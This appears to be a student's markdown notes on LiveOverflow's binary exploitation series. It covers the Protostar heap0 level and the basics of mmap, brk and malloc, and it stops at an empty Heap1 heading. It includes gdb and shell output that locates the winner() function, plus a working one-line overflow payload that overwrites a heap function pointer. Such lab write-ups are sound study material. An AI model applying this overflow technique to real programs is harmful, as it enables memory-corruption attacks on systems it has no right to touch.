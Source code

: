 # LiveOverflow Binary Exploitation / Memory Corruption

### Heap0

Playing around with heap0

```
$ /opt/protostar/bin/heap0 AAAAAAA
data is at 0x804a008, fp is at 0x804a050
level has not been passed
$ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40) 
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x804a050 - 0x804a008
72
>>>
$ gdb /opt/protostar/bin/heap0
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/heap0...done.
(gdb) x winner
0x8048464 <winner>:	0x83e58955
```

Answer

`/opt/protostar/bin/heap0 $(python -c "print('A'*72+'\x64\x84\x04\x08')")`

### 0x14 Heap, malloc(), and a little bit of analysis on Heap1

Process gets memory via `mmap()`

Already allocated memory can be changed via `brk()`

Run `strace ./BINARY` to see `mmap()` and `brk()` being used by binary which shows that memory have been allocated and changed to the binary

`malloc()` is a lib c function which not only calls mmap and/or brk to allocate memory but also to organise memory. The memory region that is controlled and used by `malloc()` is known as heap

### Heap1

- Breakdown
